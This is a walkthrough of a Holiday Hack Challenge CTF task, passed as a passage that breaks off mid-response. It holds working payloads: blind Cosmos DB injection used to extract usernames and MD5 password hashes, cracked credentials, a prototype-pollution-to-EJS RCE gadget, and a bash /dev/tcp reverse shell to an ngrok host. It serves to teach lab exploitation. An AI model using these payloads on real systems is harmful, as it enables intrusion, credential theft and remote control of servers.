# Hack-a-Gnome

## Table of Contents
- [Hack-a-Gnome](#hack-a-gnome)
  - [Table of Contents](#table-of-contents)
  - [Overview](#overview)
  - [Introduction](#introduction)
  - [Hints](#hints)
    - [Hint 1: Database Identification](#hint-1-database-identification)
    - [Hint 2: Username Detection](#hint-2-username-detection)
    - [Hint 3: Property Discovery](#hint-3-property-discovery)
    - [Hint 4: Website Navigation](#hint-4-website-navigation)
    - [Hint 5: Prototype Pollution](#hint-5-prototype-pollution)
    - [Hint 6: Fix Command Signals](#hint-6-fix-command-signals)
  - [Website Access Analysis](#website-access-analysis)
    - [Website Enumeration](#website-enumeration)
    - [Database Identification](#database-identification)
    - [Cosmos DB Analysis](#cosmos-db-analysis)
    - [Cosmos DB Injection](#cosmos-db-injection)
  - [Website Access Solution](#website-access-solution)
    - [Property discovery using `IS_DEFINED`](#property-discovery-using-is_defined)
    - [Property Analysis](#property-analysis)
    - [Get Usernames](#get-usernames)
    - [Discovering the Password](#discovering-the-password)
      - [Get Hashes](#get-hashes)
      - [Crack Hashes](#crack-hashes)
    - [Login Credentials](#login-credentials)
  - [Shell As Root Analysis](#shell-as-root-analysis)
    - [Authenticated Website](#authenticated-website)
    - [Gnome Control Interface](#gnome-control-interface)
    - [Gnome Statistics](#gnome-statistics)
    - [Website Enumeration](#website-enumeration-1)
    - [HTTP Requests](#http-requests)
      - [Moving the Bot](#moving-the-bot)
    - [Updating the Bot Name](#updating-the-bot-name)
    - [Prototype Pollution Analysis](#prototype-pollution-analysis)
    - [Prototype Pollution POC](#prototype-pollution-poc)
    - [Remote Code Execution (RCE) Analysis](#remote-code-execution-rce-analysis)
    - [Remote Code Execution (RCE) POC](#remote-code-execution-rce-poc)
  - [Shell As Root Solution](#shell-as-root-solution)
    - [Tunnel](#tunnel)
    - [Reverse Shell](#reverse-shell)
      - [Script Automation](#script-automation)
  - [Canbus Script Analysis](#canbus-script-analysis)
    - [Server Enumeration](#server-enumeration)
      - [`server.js`](#serverjs)
      - [`canbus_client.py`](#canbus_clientpy)
      - [`README.md`](#readmemd)
    - [Option 1: Canbus Fuzzing POC](#option-1-canbus-fuzzing-poc)
    - [Option 2: Canbus Process Reverse Engineering POC](#option-2-canbus-process-reverse-engineering-poc)
  - [Canbus Script Solution](#canbus-script-solution)
    - [Option 1: Find Move Command IDs via Fuzzing](#option-1-find-move-command-ids-via-fuzzing)
    - [Option 2: Find Move Command IDs via Reverse Engineering](#option-2-find-move-command-ids-via-reverse-engineering)
    - [Fix the Script](#fix-the-script)
  - [Solve the Final Puzzle](#solve-the-final-puzzle)
  - [Outro](#outro)
  - [Files](#files)
  - [References](#references)
  - [Navigation](#navigation)

---

## Overview

Davis in the Data Center is fighting a gnome army — join the hack-a-gnome fun.

## Introduction

During Acts 1 and 2, the datacenter just had one room open, and Davis says to come back later.

**Chris Davis**

Hi, my name is Chris.

I like miniature war gaming and painting minis.

I enjoy open source projects and amateur robotics.

Hiking and kayaking are my favorite IRL activities.

I love single player video games with great storylines.

Swing by again soon. I may have a task that's perfect for you.

**Gnome Hacker**

…gnomish nonsense…

In Act 3, another door is open in the room that leads to a dark corridor. In the corridor, there is only one hallway that leads to an elevator. The elevator takes you to the Gnome Factory room where you can see Chris Davis and a Smart Gnome.

**Chris Davis**

Hey, I could really use another set of eyes on this gnome takeover situation.

Their systems have multiple layers of protection now - database authentication, web application vulnerabilities, and more!

But every system has weaknesses if you know where to look.

If these gnomes freeze the whole neighborhood, forget about hiking or kayaking—everything will be one giant ice rink. And trust me, miniature war gaming is a lot less fun when your paint freezes solid.

Ready to help me turn one of these rebellious bots against its own kind?

## Hints

### Hint 1: Database Identification
Sometimes, client-side code can interfere with what you submit. Try proxying your requests through a tool like Burp Suite (https://portswigger.net/burp) or OWASP ZAP (https://www.zaproxy.org/). You might be able to trigger a revealing error message.

### Hint 2: Username Detection
Once you determine the type of database the gnome control factory's login is using, look up its documentation on default document types and properties. This information could help you generate a list of common English first names to try in your attack.

### Hint 3: Property Discovery
There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash. Depending on the hash type, it might already be cracked and available online where you could find an online cracking station to break it.

### Hint 4: Website Navigation
I actually helped design the software that controls the factory back when we used it to make toys. It's quite complex. After logging in, there is a front-end that proxies requests to two main components: a backend Statistics page, which uses a per-gnome container to render a template with your gnome's stats, and the UI, which connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). Be careful, the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again).

### Hint 5: Prototype Pollution
Oh no, it sounds like the CAN bus controls are not sending the correct signals! If only there was a way to hack into your gnome's control stats/signal container to get command-line access to the smart-gnome. This would allow you to fix the signals and control the bot to shut down the factory. During my development of the robotic prototype, we found the factory's pollution to be undesirable, which is why we shut it down. If not updated since then, the gnome might be running on old and outdated packages.

### Hint 6: Fix Command Signals
Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the `canbus_client.py` file so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI.

---

## Website Access Analysis

### Website Enumeration
Clicking on the Smart Gnome leads to a [web login page](https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/login?&challenge=termSmartGnome&id=a21cdb60-36e0-4c31-bc0a-8fe0d14c87a4).



Attempting to log in with any credentials returns an error:



Clicking on "Register New Access" opens another form:



As the username is entered, the form dynamically updates to let you know whether the name is available:



The check for username availability sounds like a viable vulnerability point.

Looking at the source code, I found a function for this check:
```js
function checkUsername() {
    clearTimeout(debounceTimer); // Clear the previous timeout to reset the delay

    debounceTimer = setTimeout(() => {
        var username = document.getElementById('NEWUSERNAME').value.trim();
        var status = document.getElementById('registerMessage');
        const resourceId = localStorage.getItem('resourceId'); // Get ID from localStorage

        if (username.length > 0) {
            let fetchUrl = `/userAvailable?username=${encodeURIComponent(username)}`;
            if (resourceId) {
                fetchUrl += `&id=${encodeURIComponent(resourceId)}`; // Append ID if available
            } else {
                console.warn('Checking username without Resource ID.');
            }

            fetch(fetchUrl)
                .then(response => response.json())
                .then(data => {
                    if (data.error) { // Handle potential errors from the backend
                        status.textContent = `❌ Error: ${data.error}`;
                        status.className = "error";
                    } else if (data.available) {
                        status.textContent = "✅ Username is available";
                        status.className = "success";
                    } else {
                        status.textContent = "❌ Username is taken";
                        status.className = "error";
                    }
                })
                .catch(err => {
                    console.error('Error checking username:', err);
                    status.textContent = "❌ Network error checking username.";
                    status.className = "error";
                });
        } else {
            status.textContent = "❌ Username invalid";
            status.className = "error";
        }
    }, 300);
}
```

From the code, we can use the following URL to check for any username: `https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=<username-to-check>`

The register id is optional. For instance, this request:
```bash
$ curl "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=David&id=a21cdb60-36e0-4c31-bc0a-8fe0d14c87a4"
```
```json
{"available":true}
```

works the same as:
```bash
$ curl "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=David"
```
```json
{"available":true}
```

I could brute force the search for a username, but I would like to trigger a server error that would give me a clue of what database is being used; so that I can craft a payload to check for usernames in a more controlled manner.

### Database Identification
Let's start with a standard SQL injection to check the number of columns in the database table:
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=%22%20ORDER%20BY%201#%20--
```

This is the response:
```json
{"error":"An error occurred while checking username: Message: {\"errors\":[{\"severity\":\"Error\",\"location\":{\"start\":55,\"end\":56},\"code\":\"SC1012\",\"message\":\"Syntax error, invalid string literal token '\\\"'.\"}]}\r\nActivityId: 43d14467-cd55-48ab-a2ac-8fde54e7641d, Microsoft.Azure.Documents.Common/2.14.0"}
```

The identifier `Microsoft.Azure.Documents.Common/2.14.0` is the Cosmos DB SDK used by applications talking to Azure Cosmos DB.
- `Microsoft.Azure.Documents` is exclusive to Cosmos DB.
- Versioning matches the Cosmos DB client libraries.
- This is not SQL Server, MySQL, PostgreSQL, etc.

Regarding the error code `"code":"SC1012"`, Cosmos DB SQL API uses `SCxxxx` error codes for query parsing and execution.

Relational DBs use very different error code formats:
- SQL Server uses numeric codes (e.g., 102, 156)
- PostgreSQL uses SQLSTATE codes (e.g., 42601)
- MySQL uses both numeric + SQLSTATE codes

The format in the response is specific to Cosmos DB.

### Cosmos DB Analysis
Azure Cosmos DB (SQL API) is not a relational database and behaves very differently from traditional relational DBMSs; hence, most classic SQLi techniques don't translate directly. Even with full query control, Cosmos DB does not expose database or container metadata via SQL.

Cosmos SQL operates inside a single container context.

That means:
- You already are inside a specific database + container
- Queries only see documents in that container
- Metadata discovery must be data-driven, not system-driven

The goals to exploit any vulnerability include:
- Discovering document structure
- Enumerating fields / properties
- Extracting values from JSON documents
- Bypassing filters or authorization logic

Cosmos DB SQL supports a limited but useful function set:

**String / value functions**
- `LENGTH()`
- `SUBSTRING()`
- `LOWER()`, `UPPER()`
- `CONTAINS()`
- `STARTSWITH()`, `ENDSWITH()`
- `IS_DEFINED()`
- `IS_STRING()`, `IS_NUMBER()`, etc.

**Boolean logic**
- `AND`, `OR`, `NOT`
- Ternary expressions via `IIF(condition, trueExpr, falseExpr)`

**JSON-centric access**
- By convention, Microsoft uses `c` as shorthand for "container" or "collection".
- Properties can be accessed via `c.property`.
- Properties can be nested, e.g., `c.user.password`.
- Arrays can be checked via `ARRAY_LENGTH()`.

### Cosmos DB Injection
We can apply boolean inference to document values, e.g.:
- Length of a property value.
- Character-by-character extraction of a string field.
- Presence/absence of fields.

Conceptually:
- Is `LENGTH(c.secret) = 10`?
- Is `SUBSTRING(c.secret, 1, 1) = 'a'`?
- Is `IS_DEFINED(c.admin)`?

Since we can't enumerate databases/tables, we need to discover the document structure and look for:
- Which fields exist
- Nested objects
- Arrays

Conceptually:
- Does field X exist?
- Is field X a string or object?
- Does object X contain property Y?

Important things to consider:
- Cosmos DB is very strict
- Many malformed queries fail hard instead of returning partial results
- Error messages are often swallowed by the application layer

Available attack techniques include:
- Boolean-based blind inference
- Timing differences
- Result count differences
- Application logic flaws, not raw SQL errors

The backend query format on `/userAvailable` is likely something like:
```sql
SELECT * FROM c WHERE c.<property> = "<username>"
```

We already know `"` breaks the query. Double quotes are string delimiters in Cosmos SQL. The input closed the string and injected logic.

Let's play with the input to close the string and inject logic, not syntax errors. We want to get something that works and can be manipulated to control the output.

Let's start with this pattern: `" OR true OR "`

With this input, the injected version would be:
```sql
WHERE c.<property> = "" OR true OR ""
```

Since `OR true` matches all documents, the query finds at least one matching username; hence, the username is taken and the response is:
```json
{"available":false}
```

This confirms we can use boolean-based SQL injection.

The endpoint is probably doing something like:
```sql
SELECT VALUE COUNT(1)
FROM c
WHERE c.<property> = "<username>"
```

And then:
```sql
available = (count === 0)
```

So:
- If query matches anything, then the response is `available = false`.
- If query matches nothing, then the response is `available = true`.

We can use this logic for blind inference.

---

## Website Access Solution

### Property discovery using `IS_DEFINED`
We need to figure out what property is being compared:
- `c.username`?
- `c.email`?
- `c.user`?
- Something else?

Referencing a non-existent property in Cosmos DB does not error, it evaluates to undefined. Hence, we must use boolean probes, i.e., we can ask yes/no questions about the database and extract data one bit at a time.

Let's try injecting checks for common property names.

**Template**
```sql
" OR IS_DEFINED(c.<guess>) OR "
```

Interpretation:
- If `<guess>` exists on documents, then the query matches and the response is `available = false`.
- If `<guess>` doesn't exist on any document, then the query does not match and the response is `available = true`.

High-probability guesses to try in order:
- `username`
- `email`
- `user`
- `name`
- `login`
- `handle`
- `userid`

We are looking for which one flips `available` to `false`.

We can try each until we find a match:
```bash
curl "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=\"%20OR%20IS_DEFINED(c.user)%20OR%20\""
```
```json
{"available":true}
```
```bash
curl "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=\"%20OR%20IS_DEFINED(c.email)%20OR%20\""
```
```json
{"available":true}
```
```bash
curl "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=\"%20OR%20IS_DEFINED(c.username)%20OR%20\""
```
```json
{"available":false}
```

We found a match with `username`.

### Property Analysis
Let's confirm the property value is a String:
```bash
curl "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=\"%20OR%20IS_STRING(c.username)%20OR%20\""
```
```json
{"available":false}
```

Let's determine the length of an existing username. Because the query returns any matching document, we are effectively querying for "Does any user have a username of length N?"

Let's iterate over N values until a match is found:
```
" OR LENGTH(c.username) = N OR "
```

Once we know the value length, we can extract usernames character-by-character using a blind check like before. In this case, we iterate over a series of common characters (a-z, A-Z, 0-9, -, _) to check each position to confirm a match:
```sql
" OR SUBSTRING(c.username, pos, 1) = 'a' OR "
```

However, considering that there might be multiple usernames, it is better to use another method that does not rely on extracting each character, but instead checks for a prefix, which is more efficient and reliable:
```sql
" OR STARTSWITH(c.username, 'bruce') OR "
```

### Get Usernames
Using the [`sqli-user.py`](./sqli-user.py) Python script to execute this logic, we are able to identify a `c.username` value of length 5 equal to `bruce`.

In the login portal, we can confirm that the username is not available.



This same logic can work well with a word list as there is a hint that we can generate a list of common English first names to try the attack.

We can use the [`john-the-ripper.txt`](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Software/john-the-ripper.txt) word list to eliminate entries that are not English first names and create a shorter [`usernames.txt`](./usernames.txt) word list of usernames.

Using the [`sqli-user.py`](./sqli-user.py) Python script again with the modified list of usernames, we find the following matches:
```
bruce
harold
```

In the login portal, we can confirm that the other username is not available.


### Discovering the Password
It is not realistic to expect the password to be stored in plaintext.

In Cosmos DB, the password could be stored in some of these fields:

| Field name | Meaning |
| --- | --- |
| password | Rare, but possible (CTF easy mode) |
| passwordHash | Hash of the password |
| hash | Generic hash field |
| digest | Often hash or HMAC |
| salt | Used with hashing |
| iterations | PBKDF-style key stretching |
| algo / algorithm | Hashing algorithm |
| token | Sometimes used instead of passwords |

Similar to before, let's check if any of these properties is available.

Let's check for the different entries, e.g., `" OR IS_DEFINED(c.digest) OR "`
```bash
curl "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=\"%20OR%20IS_DEFINED(c.digest)%20OR%20\""
```
```json
{"available":false}
```

We find that the `digest` field is available. This commonly implies:
```
digest = HASH(password [+ salt])
```

#### Get Hashes
Using the [`sqli-digest.py`](./sqli-digest.py) Python script, we can extract the `digest` property similar to how we got the user names, and we find the following 32-char digests were extracted for the usernames above:

| Username | Digest |
| --- | --- |
| `bruce` | `d0a9ba00f80cbc56584ef245ffc56b9e` |
| `harold` | `07f456ae6a94cb68d740df548847f459` |

#### Crack Hashes
This is MD5 (128-bit hash, 16 bytes → 32 hex chars) with no salt present. Unsalted MD5 is very broken and it might already be cracked and available online with a cracking station to break it.

Let's check in https://crackstation.net/.

| Username | Hash | Type | Result |
| --- | --- | --- | --- |
| `bruce` | `d0a9ba00f80cbc56584ef245ffc56b9e` | md5 | `oatmeal12` |
| `harold` | `07f456ae6a94cb68d740df548847f459` | md5 | `oatmeal!!` |

### Login Credentials
We have found two accounts:
```
bruce:oatmeal12
harold:oatmeal!!
```

They both work to login to the website.

---

## Shell As Root Analysis

### Authenticated Website

Login with any of the credentials found shows the "Smart Gnome Control Center".



After looking at the Network tab in the browser DevTools and taking information from the hint, the front-end proxies requests to two main components:
1. **Gnome Statistics:** `stats/` endpoint - a backend Statistics page on the left side that uses a per-gnome container to render a template with your gnome's stats.
2. **Gnome Control Interface:** `control/` endpoint - a page on the right side with a room, containing several crates and a gnome bot; this room connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). There is a power switch at the top of the room that we need the bot to reach to shut down the factory.

> **Note:** the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again).

### Gnome Control Interface
When attempting to move the gnome around, it fails with errors indicating that the CAN bus controls are not sending the correct signals.

We need to look for a way to hack into the gnome's control stats/signal container to get command-line access to the smart-gnome. This would provide the ability to fix the signals and control the bot to shut down the factory.

One of the hints indicates that during the development of the robotic prototype, they found the factory's pollution to be undesirable, which is why they shut it down. If not updated since then, the gnome might be running on old and outdated packages.

### Gnome Statistics
The stats panel displays information like below:

**Smart Gnome Statistics**
| Parameter | Value |
| --- | --- |
| name | GnomeBot48339 |
| model_version | 2.3.8 |
| description | Holiday remote controlled gnome for your home. |
| status | active |
| last_updated | 2025-12-22T17:32:39.838Z |
| last_updated_by | bruce |
| last_accessed_by | bruce |
| battery_level | 100% |
| uptime | 49 seconds |
| cpu_temperature | 58.6°C |
| current_task | Idle |
| network_status | Connected |
| error_logs | None |
| gnome_mode | Stealth |
| firmware_version | GNM-4.12.0 |
| gnome_mood | Grumpy |
| light_sensor | Bright |
| gnome_config_object | `{"settings":{"name":"GnomeBot48339","model_version":"2.3.8","firmware_version":"GNM-4.12.0"}}` |

The `gnome_config_object` value is a JSON object, almost certainly parsed server-side and very likely passed directly into a template renderer.

The template renderer looks like the primary injection surface.

The hint indicates that the application uses a "per-gnome container to render a template with your gnome's stats". That means:
- Each gnome has its own runtime
- The template engine runs inside that container
- Any template execution happens in-process, not sandboxed by the frontend

This is how typically a Server-Side Template Injection (SSTI) + RCE challenge is structured.

The other part of the hint about outdated packages is helpful because we are given:
- model_version 2.3.8
- firmware_version GNM-4.12.0
- "prototype era, never updated"

This strongly implies:
- Old Python / Node / Java templating engine
- Weak or missing sandboxing
- Known template escape primitives still work

### Website Enumeration

### HTTP Requests
Input to the site seems to all be sent as `GET` requests to `/ctrlsignals` as URL encoded JSON in the `message` parameter.

#### Moving the Bot
Moving the bot with the arrow keys sends a "move" action:

**Request:**
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A%22move%22%2C%22direction%22%3A%22down%22%7D
```

**Decoded `message`:**
```json
{
    "action":"move",
    "direction":"down"
}
```

**Response:** HTTP 200
```json
{"type":"message","data":"success","message":"Moving down"}
```
Which indicates success, even though the UI shows an error message:
```
Unknown canbus command ID: 0x657
```

### Updating the Bot Name
There is a button in the UI to change the Smart Gnome name. Updating the name sends an "update" action:

**Request:**
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={%22action%22:%22update%22,%22key%22:%22settings%22,%22subkey%22:%22name%22,%22value%22:%22GnomeRobot%22}
```

**Decoded `message`:**
```json
{
  "action": "update",
  "key": "settings",
  "subkey": "name",
  "value": "GnomeRobot"
}
```

**Response:** HTTP 200
```json
{"type":"message","data":"success","message":"Updated settings.name to GnomeRobot"}
```

After refreshing the stats panel, the new name is visible in there:



Let's explore the use of the "update" action for vulnerabilities.

### Prototype Pollution Analysis
The update request payload structure is:
```json
{
    "action": "update",
    "key": "..",
    "subkey": "..",
    "value": ".."
}
```

This logic sets `key.subkey` to the given `value` on some server-side object.

In JavaScript, all objects inherit properties from a prototype chain. When you access `obj.property`, JavaScript first checks if `obj` has that property directly, and if not, it looks up the prototype chain.

The `__proto__` property provides access to an object's prototype. If an application allows setting arbitrary keys on an object without sanitization, an attacker can set `__proto__.someProperty`, which pollutes the prototype of all objects in the application. Any code that later checks for `someProperty` on any object will now find the attacker's value.

There is additional information about this vulnerability in https://portswigger.net/web-security/prototype-pollution and https://portswigger.net/web-security/prototype-pollution/server-side.

### Prototype Pollution POC
If the server doesn't properly sanitize the `key` parameter, we might be able to pollute the object's prototype.

For this specific challenge, let's explore the use of the "update" action to confirm prototype poisoning is viable by setting `__proto__.toString` to a bad value and see if it breaks the application:

**Request:**
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={"action":"update","key":"__proto__","subkey":"toString","value":"NothingGood"}
```

**Response:**
```json
{"type":"message","data":"success","message":"Updated __proto__.toString to NothingGood"}
```

After this, a refresh of the `/stats` page fails with the following error:
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats
```
```log
TypeError: Object.prototype.toString.call is not a function
    at Object.isRegExp (/app/node_modules/qs/lib/utils.js:231:38)
    at normalizeParseOptions (/app/node_modules/qs/lib/parse.js:289:64)
    at module.exports [as parse] (/app/node_modules/qs/lib/parse.js:305:19)
    at parseExtendedQueryString (/app/node_modules/express/lib/utils.js:289:13)
    at query (/app/node_modules/express/lib/middleware/query.js:42:19)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at trim_prefix (/app/node_modules/express/lib/router/index.js:328:13)
    at /app/node_modules/express/lib/router/index.js:286:9
    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)
    at next (/app/node_modules/express/lib/router/index.js:280:10)
```

The server crashes because when it tries to call `toString()` on any object, it now gets the garbage value instead of a function. This confirms prototype pollution is possible and that the server is running Node.js.

The `/stats` page renders templates on the server. Node.js applications commonly use EJS (Embedded JavaScript) for templating.

Let's try to confirm the rendering engine with this payload:
```json
{
    "action": "update",
    "key": "__proto__",
    "subkey": "escapeFn",
    "value": "{\"view options\": {\"client\": 1, \"escapeFn\": \"process.mainModule.require('child_process').exec('ls', (_, stdout, stderr) => console.log(stdout || stderr));\"}}"
}
```
**Request:**
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={"action":"update","key":"__proto__","subkey":"escapeFn","value":"{\"view options\": {\"client\": 1, \"escapeFn\": \"process.mainModule.require('child_process').exec('ls', (_, stdout, stderr) => console.log(stdout || stderr));\"}}"}
```

**Response:**
```json
{"type":"message","data":"success","message":"Updated __proto__.escapeFn to {\"view options\": {\"client\": 1, \"escapeFn\": \"process.mainModule.require('child_process').exec('ls', (_, stdout, stderr) => console.log(stdout || stderr));\"}}"}
```

After this, a refresh of the `/stats` page fails with the following error:
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats
```
```log
TypeError: /app/views/stats.ejs:70
    68|                 <% gnomeStats.forEach(stat => { %>
    69|                     <tr>
 >> 70|                         <td class="key-cell"><%= stat.name %></td>
    71|                         <td class="value-cell"><%= stat.value %></td>
    72|                     </tr>
    73|                 <% }); %>

escapeFn is not a function
    at eval (/app/views/stats.ejs:15:16)
    at Array.forEach (<anonymous>)
    at eval (/app/views/stats.ejs:12:19)
    at stats (/app/node_modules/ejs/lib/ejs.js:691:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:272:36)
    at exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/app/node_modules/express/lib/response.js:1049:7)
```

This error message confirms that the template engine is EJS.

### Remote Code Execution (RCE) Analysis
The goal is to achieve Remote Command Execution (RCE) using prototype pollution in Node.js.

Prototype pollution can be escalated to Remote Code Execution (RCE) by chaining it with specific vulnerabilities or gadgets in the application or runtime environment. The process typically involves polluting the prototype chain to manipulate critical properties used by dangerous functions, especially those related to process spawning or code execution.

One common method involves exploiting the `child_process` module in Node.js. Functions like `fork()`, `spawn()` or `exec()` can be leveraged if the prototype pollution affects properties such as `shell`, `env`, or `execArgv`. This way, we can cause the spawn function to execute commands in a shell, turning user-controlled input into arbitrary command execution.

A known EJS prototype pollution gadget involves polluting the `__proto__.outputFunctionName` property, which allows attackers to inject arbitrary JavaScript code into the compiled template function.

This works because EJS compiles templates into something like:
```js
function anonymous(locals) {
  var outputFunctionName = <value>;
  ...
}
```

If we can control that `<value>`, we can break out of the assignment, execute arbitrary code, and comment out the rest.

For instance, setting `Object.prototype.outputFunctionName` to a string like `_tmp;return global.process.mainModule.require('child_process').execSync('id').toString();//` can lead to Remote Code Execution (RCE) when the template is rendered:
```js
function anonymous(locals) {
  var outputFunctionName = _tmp;global.process.mainModule.require('child_process').execSync('id').toString();//
  ...
}
```

The goal with the injected code is to:
1. End the assignment cleanly.
2. Execute the injected code.
3. Keep the rest of the file syntactically valid.

### Remote Code Execution (RCE) POC
Let's try to confirm RCE with this payload:
```json
{
    "action": "update",
    "key": "__proto__",
    "subkey": "outputFunctionName",
    "value": "_tmp;return global.process.mainModule.require('child_process').execSync('id').toString();//"
}
```

**Request:**
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"_tmp;return global.process.mainModule.require('child_process').execSync('id').toString();//"}
```

**Response:**
```json
{"type":"message","data":"success","message":"Updated __proto__.outputFunctionName to _tmp;return global.process.mainModule.require('child_process').execSync('id').toString();//"}
```

After this, a refresh of the `/stats` page shows:
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats
```
```
uid=0(root) gid=0(root) groups=0(root)
```

This works because:
1. `execSync()` blocks execution (synchronous vs. asynchronous).
2. It returns a Buffer containing `stdout`.
3. `.toString()` converts it to readable output.
4. The function returns the value and does not render the rest of the template.

This confirms that we can control command execution on the server.

---

## Shell As Root Solution

At a high-level, these are the steps we want to follow:
1. Login to the control panel.
2. Stage the payload (i.e., pollute `__proto__`) with a piece of code that connects back to a reverse shell.
3. Trigger the reverse shell by visiting the `/stats` endpoint.

### Tunnel
Since the computer I use for the challenge is behind at least one layer of NAT, it cannot be reached directly from the challenge webserver to set up a reverse shell.

Let's use [Ngrok](https://ngrok.com/) to create a tunnel using TCP on port 443:
```bash
ngrok tcp 443
```
```
Forwarding    tcp://8.tcp.ngrok.io:10135 -> localhost:443
```

### Reverse Shell
Let's listen on port 443 and wait for the reverse shell to connect:
```bash
ncat -lvnp 443
```
```
Ncat: Version 7.99 ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```

Let's create the reverse shell by using the following payload:
```json
{
    "action": "update",
    "key": "__proto__",
    "subkey": "outputFunctionName",
    "value": "_tmp;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/[ngrok-tcp-host-ip]/[port] 0>&1\"');return '';//"
}
```

**Request:**
```
https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message={"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"_tmp;global.process.mainModule.require(%27child_process%27).exec(%27bash%20-c%20%5C%22bash%20-i%20%3E%26%20/dev/tcp/8.tcp.ngrok.io/10135%200%3E%261%5C%22%27);return%20%27%27;//"}
```

**Response:**
```
